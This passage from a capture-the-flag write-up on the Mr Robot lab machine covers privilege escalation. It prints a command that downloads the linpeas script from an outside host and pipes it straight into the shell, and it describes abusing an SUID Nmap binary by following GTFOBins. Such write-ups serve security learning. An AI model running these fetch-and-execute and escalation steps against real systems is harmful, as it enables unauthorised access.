 ```bash
curl 10.8.84.132:80/linpeas.sh | sh
```

The script then runs and will show us any privilege escalation paths. As expected linpeas found many ways of privilege escalation, but one that stood out was the SUID for Nmap.

![IMG-30](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(22).png)

From here we can use the GTFOBins resource and follow the steps provided:

![IMG-31](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(23).png)
